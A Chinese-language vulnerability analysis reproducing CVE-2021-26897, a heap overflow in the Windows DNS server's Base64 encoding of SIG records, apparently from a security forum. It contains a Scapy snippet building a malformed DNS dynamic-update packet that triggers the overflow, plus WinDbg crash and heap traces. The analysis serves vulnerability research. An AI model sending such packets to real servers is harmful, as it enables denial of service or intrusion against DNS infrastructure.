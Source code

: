  

![](https://bbs.pediy.com/upload/attach/202104/701197_2WSU7BQ3QTPVEDZ.png)

### CVE-2021-26897 漏洞复现分析

*   发送许多连续的 SIG 资源记录动态更新可触发此漏洞
*   将许多连续的 SIG 资源记录动态更新进行组合并将字符串进行 Base64 编码时在堆上引发 OOB 写操作

根据已有信息，可构造以下数据包。更新类型为 SIG，记录超长（signature 字段超长）。注意这次需使用 TCP 连接，Scapy 不能直接构造，以下仅为模型：

```
query = DNSQR(qname='mal', qtype='SOA')
RRSIG = DNSRRRSIG(rr,signature='\x00'*0xffb9)
packet = IP(dst=ip)/TCP()/DNS(id=random.randint(0,65535),opcode=5,qd=query,ns=RRSIG)

```

以下为抓包数据：

 

![](https://bbs.pediy.com/upload/attach/202104/701197_GKNGK3XU777S6AH.png)

 

漏洞触发现场以及函数调用堆栈如下，异常的原因是 0x2713533c000 无法访问。漏洞触发是在 Dns_SecurityKeyToBase64String 函数（用于 Base64 编码）中。

```
0:011> g
(874.c34): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
dns!Dns_SecurityKeyToBase64String+0x66:
00007ff7`50d02c3a 41884001        mov     byte ptr [r8+1],al ds:00000271`3533c000=??
0:011> k
 # Child-SP          RetAddr           Call Site
00 000000bc`b867f3a8 00007ff7`50cc7f02 dns!Dns_SecurityKeyToBase64String+0x66
01 000000bc`b867f3b0 00007ff7`50bc26a9 dns!SigFileWrite+0x1f2
02 000000bc`b867f4a0 00007ff7`50bc244e dns!RR_WriteToFile+0x205
03 000000bc`b867f500 00007ff7`50bc1c92 dns!writeNodeRecordsToFile+0xa6
04 000000bc`b867f560 00007ff7`50bc1cb1 dns!zoneTraverseAndWriteToFile+0x42
05 000000bc`b867f590 00007ff7`50bc18f5 dns!zoneTraverseAndWriteToFile+0x61
06 000000bc`b867f5c0 00007ff7`50c6a2a3 dns!File_WriteZoneToFile+0x379
07 000000bc`b867f6c0 00007ff7`50c6a388 dns!Zone_WriteBack+0xfb
08 000000bc`b867f700 00007ff7`50d00580 dns!Zone_WriteBackDirtyZones+0xb4
09 000000bc`b867f790 00007ff7`50c56a74 dns!Zone_WriteBackDirtyVirtualizationInstances+0x110
0a 000000bc`b867f7c0 00007ff7`50c550ad dns!Timeout_Thread+0x544

```

查看出现问题的缓冲区，可以发现，其首地址为 0x271352bbff0 ，UserSize 为 0x80010，是在 File_WriteZoneToFile 函数中调用 Mem_Alloc 分配的。

```
0:011> !heap -p -a 271`3533c000
    address 000002713533c000 found in
    _DPH_HEAP_ROOT @ 271126b1000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                             27132a2ca90:      271352bbff0            80010 -      271352bb000            82000
    00007fff07e86d67 ntdll!RtlDebugAllocateHeap+0x000000000000003f
    00007fff07e2cade ntdll!RtlpAllocateHeap+0x000000000009d27e
    00007fff07d8da21 ntdll!RtlpAllocateHeapInternal+0x0000000000000991
    00007ff750cc2b4d dns!allocMemory+0x0000000000000039
    00007ff750cc2f28 dns!Mem_Alloc+0x000000000000008c
    00007ff750bc178c dns!File_WriteZoneToFile+0x0000000000000210
    00007ff750c6a2a3 dns!Zone_WriteBack+0x00000000000000fb
    00007ff750c6a388 dns!Zone_WriteBackDirtyZones+0x00000000000000b4
```